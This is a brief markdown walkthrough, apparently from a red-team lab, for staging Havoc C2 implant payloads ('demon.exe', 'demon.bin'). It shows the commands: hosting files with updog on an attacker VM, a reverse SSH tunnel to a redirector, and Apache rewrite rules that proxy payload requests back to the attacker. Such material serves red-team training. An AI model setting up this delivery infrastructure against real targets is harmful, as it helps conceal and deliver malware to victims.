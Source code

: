 # Stager

1. Setup file hosting service on Attacker Linux.
```
┌──(havoc@havoc):~/Desktop
└─$ updog --ssl
[+] Serving /home/kali/Desktop...
 * Running on all addresses.
   WARNING: This is a development server. Do not use it in a production deployment.
 * Running on https://192.168.231.128:9090/ (Press CTRL+C to quit)
```

2. On Attacker Linux VM, setup a SSH tunnel for Payload Stager.
```
┌──(havoc@havoc):~/Desktop
└─$ ssh -N -R 9090:localhost:9090 -i redirector redirector@192.168.231.129
```

3. Add the following lines under `RewriteEngine on` in `.htacccess` file.
```
RewriteCond %{REQUEST_URI} "demon.exe" [NC,OR]
RewriteCond %{REQUEST_URI} "demon.bin" [NC]
RewriteRule ^.*$ "https://localhost:9090%{REQUEST_URI}" [P]
```

4. Restart Apache service.
```
redirector@redirector:~$ sudo systemctl restart apache2
```
